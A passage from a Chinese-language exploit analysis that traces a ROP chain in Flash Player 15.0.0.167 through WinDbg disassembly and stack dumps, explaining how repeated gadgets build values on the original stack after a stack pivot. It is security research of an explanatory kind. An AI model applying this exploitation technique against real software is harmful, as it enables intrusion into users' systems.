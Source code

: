 接下来的ROP gadget出现了四次。

```
1:021> u eip
Flash32_15_0_0_167+0x61478:
5e8c1478 48     dec eax
5e8c1479 c3     ret

```

![enter image description here](http://drops.javaweb.org/uploads/images/8eb8ea18e463466a55bde34358ade2e1978b99d3.jpg)

正如我们之前提到的，在stack pivot执行前的原始esp的值已经被存储在了eax中。因此，eax减小四次，就是在原始栈上开辟出一个四字节。

```
1:021> u eip
Flash32_15_0_0_167+0x1192:
5e861192 59     pop ecx
5e861193 c3 ret

```

在当前栈上包含下面的数据:

```
1:021> dd esp
070ab088 5e8e2e45 5e89a4ca 41414141 5e8c1478
070ab098 5e8c1478 5e8c1478 5e8c1478 5e861192

```

通过上面的ROP gadget，ecx的值被设置为0x5e8e2e45，然后

```
1:021> u eip
Flash32_15_0_0_167+0x3a4ca:
5e89a4ca 8908   mov  dword ptr [eax],ecx
5e89a4cc 5d         pop ebp
5e89a4cd c3         ret

```

这将存储ecx的值在原始堆栈上（esp-4处）

![enter image description here](http://drops.javaweb.org/uploads/images/7c8b5b81178afa61e2ac93d422e9c57ba5315adc.jpg)

下一个ROP gadget将0x41414141弹出到ebp中，这只是为了填充用。因为我们的ROP gadget在返回之前包含了一条pop ebp指令。 上面这些ROP gadgets将被多次执行。我们可以总结如下：

```
Gadget 1:
dec eax;
retn

```

这个ROP gadget执行四次可以再原始堆栈上开辟1个DWORD。
